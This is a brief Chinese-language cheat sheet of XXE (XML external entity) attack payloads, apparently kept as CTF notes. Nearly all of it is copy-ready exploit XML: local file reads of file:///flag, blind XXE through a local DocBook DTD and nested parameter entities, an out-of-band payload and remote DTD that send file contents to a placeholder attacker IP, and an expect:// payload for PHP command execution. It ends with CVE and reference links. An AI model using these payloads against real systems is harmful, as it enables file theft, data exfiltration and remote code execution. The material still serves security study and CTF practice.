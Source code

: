 # XXE

## 外部实体 (libxml < 2.90)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "file:///flag">
 ]>

 <userInfo>
  <name>&xxe;</name>
 </userInfo>
```


## Blind-XXE 引用本地DTD

利用 ISOamsa

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
'>
    %local_dtd;
]
```

## Blind-XXE 引用外部DTD

XML payload

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://<attacker-ip>/a.dtd">  
    <!ENTITY % file SYSTEM "file:///flag">
    %remote;
    %send;
]>
<message>eki</message>
```

DTD payload

```xml
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://attacker-ip?%file;'>">
%start;
```


## 嵌套参数实体

```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ELEMENT message ANY>
    <!ENTITY % para1 SYSTEM "file:///flag">
    <!ENTITY % para '
        <!ENTITY &#x25; para2 "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;para1;&#x27;>">
        &#x25;para2;
    '>
    %para;
]>
<message>eki</message>
```

## except:// PHP扩展协议协议RCE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "expect://id">
 ]>

 <userInfo>
  <name>&xxe;</name>
 </userInfo>
```

## 相关cve

- CVE-2014-3529 apache poi < 3.10.1 https://xz.aliyun.com/t/6996#toc-3

- CVE-2019-12415 https://b1ue.cn/archives/241.html


## 参考资料

一篇文章带你深入理解漏洞之 XXE 漏洞

https://xz.aliyun.com/t/3357

Blind XXE详解与Google CTF一道题分析 

https://www.freebuf.com/vuls/207639.html

DTD Cheat Sheet 

https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html